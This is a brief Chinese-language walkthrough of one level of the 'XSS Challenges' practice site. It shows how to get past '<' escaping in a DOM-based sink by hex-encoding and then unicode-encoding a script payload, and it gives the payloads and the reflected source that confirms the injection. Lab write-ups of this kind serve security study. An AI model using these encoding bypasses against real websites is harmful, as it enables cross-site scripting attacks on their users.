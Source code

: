 > 可以看到 > 被转义
>
> 但是存在传递，可以利用 dom 类型漏洞

构造 payload 

```
<script>alert(document.domain);</script>
```

对 <进行 hex 编码

```
\x3c
```

提交 `\\x3c`

> 第一个 \ 是将第二个 \ 转义，避免第二个 \ 转后面的内容

```
<script>document.write("\\x3c");</script>\x3c
```

> 执行后第二个回显源码为 `\<`
>
> 可以判断是在 `\\3c` 前加了 `\\` 变为 `\\\\3c`

对 payload 进行 unicode 编码

```
\\u003cscript\\u003ealert(document.domain);\\u003c/script\\u003e
```

提交 payload，查看回显源码

```
<script>document.write("\u003cscript\u003ealert(document.domain);\u003c/script\u003e");</script><script>alert(document.domain);</script>
```

> 成功注入

---

References

- [XSS Challenges](https://xss-quiz.int21h.jp/)
